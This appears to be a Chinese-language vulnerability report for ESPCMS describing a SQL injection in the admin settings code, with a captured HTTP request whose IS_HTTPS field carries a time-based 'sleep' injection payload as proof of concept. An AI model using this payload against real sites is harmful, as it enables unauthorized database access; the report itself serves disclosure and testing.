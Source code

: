 espcmsSQL注入漏洞
https://www.ecisp.cn/html/cn/download_espcms/


phpstudy安装
代码审计
espcms_admin/control/SettingMain.php
在更新网站配置时，key和value的值是直接拼接进去的，因此存在SQL注入漏洞
![1](https://github.com/Appeal-specific/espcmsSQL-/blob/main/1.jpg)

漏洞复现
安装成功后进入网站后台
点击设置->系统设置->确定保存
![2](https://github.com/Appeal-specific/espcmsSQL-/blob/main/2.jpg)
并抓包，数据包如下

POST /espcms_admin/index.php?act=FuNYwqPAgpSXj4m5d2npHEownomPfTf6l4%2BJuXdp6Rxja3m%2FkIeu1g%3D%3D HTTP/1.1
Host: 192.168.1.101
Content-Length: 518
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie:espcms_admin_user_info=D30R5LB5F3tzA96zEfkI6K7agHgeLvgeUCjwWtnFKKTTijDU563rtvbF2%2BZPKt2AFV%2FSBefbEwhwz2Y4v8O0d%2BdSQVPrIuV5fe5dP91YUivEt6JhJx2lVtgz01pzBwvJiXfG1EXATRSNiOProF6Mh2%2BJcTXlrQLBPE42ycga1aPOVdHT7xyMJZSrp%2BGetH8CZ7pyHUpFWROqoCt5hHO7xM48Ebz3UEVruMjbJJLUxFFsmWoMFL%2BdMJJlmOFXe%2BPZS5r5Pja02zjNFbgcjakujmffPpqYlJW6HJe0U1xNfGJm6SjW%2BhaseaBLNIfVLDpuTqJPkgKcVePiqoUBqATOVWskGbjhbduHQfNOtLFwurCZa7SxuSlT6UJIDyQr9hM1DgJnDcrZn57WF43ah3ACdbmk4G5o5uK%2BeIkF5IGBgDmNGt0n35hr6qqgK3mEc7vE%2FRhR1PSyNGBSnjg5c6Yd3MY7MGREbfve; 
Connection: close

token_key=&token_name=&config_name=%E5%9F%BA%E6%9C%AC%E5%8F%82%E6%95%B0%E8%AE%BE%E7%BD%AE&SITENAME=123456&WEB_ICON_16=upfile%2Fespcms_16.png&WEB_ICON_32=upfile%2Fespcms_32.png&WEB_ICON_64=upfile%2Fespcms_64.png&IS_CLOSE=0&CLOSE_CONTENT=&ADMINE_MAIL=123%40qq.com&IS_LOG=1&IS_GZIP=1&DEFAULT_LNG=cn&IS_ALONELNG=1&HOME_LNG=cn&IS_HTML=1&IS_REWRITE=0&ENTRANCE_FILE=index&IS_HTMLDIR=1&FILE_HTMLDIR=html%2F&IS_GETCACHE=1&IS_CACHING=1&CACHE_TIME=3600&HTTP_PATHTYPE=1&TIP_SEARCHTIME=30&IS_HTTPS'and/**/(sleep(3))and'1'%3d'1=http

修改请求体中的IS_HTTPS为IS_HTTPS'and/**/(sleep(2))and'1'%3d'1
![3](https://github.com/Appeal-specific/espcmsSQL-/blob/main/3.jpg)
![4](https://github.com/Appeal-specific/espcmsSQL-/blob/main/4.jpg)

Sleep()函数成功执行，因此存在SQL注入漏洞

